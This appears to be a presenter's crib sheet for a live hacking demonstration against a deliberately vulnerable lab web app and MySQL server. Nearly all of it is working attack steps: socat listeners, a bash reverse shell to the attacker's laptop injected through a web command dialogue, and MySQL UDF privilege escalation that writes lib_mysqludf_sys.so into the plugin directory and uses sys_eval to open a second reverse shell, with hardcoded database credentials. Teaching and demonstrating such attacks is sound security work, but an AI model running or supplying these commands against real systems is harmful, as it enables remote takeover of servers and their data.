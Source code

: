 #Compromise "crib sheet" workflow:

* ensure iptables on laptop is open to receive reverse shells.
   * sudo iptables -I INPUT -p tcp --dport 11457 -j ACCEPT
   * sudo iptables -I INPUT -p tcp --dport 11458 -j ACCEPT
* launch terminator onto projector
   * split into 4 panes
       * ctrl + shift + o (split horizontal)
       * ctrl + shift + e (split vertical)
* upper left pane.
    * socat readline TCP-LISTEN:11457 
* upper right pane.
    * socat readline TCP-LISTEN:11457 
* lower left pane
    * ping 172.16.33.2 show web server is up
    * launch stage_webshell.sh in lower left of terminator
* lower right pane
   * once stage_webshell.sh has completed, launch stage_udf.sh

* open browser to http://172.16.33.2/vuln_webapp/images.php
    * in "Run command dialogue": bash -i >& /dev/tcp/172.16.33.1/11457 0>&1 &
    * head back to terminator upper left pane
        * run
            * id
            * w
            * cat sqli.php (not getting db server details)
            * mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp < data.sql 
            * mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT @@GLOBAL.plugin_dir" 
            * mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT payload FROM udf_stager INTO DUMPFILE '/usr/lib64/mysql/plugin/lib_mysqludf_sys.so'"

            * ```cat > data2.sql << EOF
               DROP FUNCTION IF EXISTS lib_mysqludf_sys_info;
               DROP FUNCTION IF EXISTS sys_get;
               DROP FUNCTION IF EXISTS sys_set;
               DROP FUNCTION IF EXISTS sys_exec;
               DROP FUNCTION IF EXISTS sys_eval;

               CREATE FUNCTION lib_mysqludf_sys_info RETURNS string SONAME 'lib_mysqludf_sys.so';
               CREATE FUNCTION sys_get RETURNS string SONAME 'lib_mysqludf_sys.so';
               CREATE FUNCTION sys_set RETURNS int SONAME 'lib_mysqludf_sys.so';
               CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';
               CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';
               EOF```
            * mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp < data2.sql 
            * mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('id')" 
            * mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('whoami')" 
             * mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('bash -i >& /dev/tcp/172.16.33.1/11458 0>&1 &')"
    * head back to terminator upper right pane
        * run
            * id
            * whoami
            * uname -a
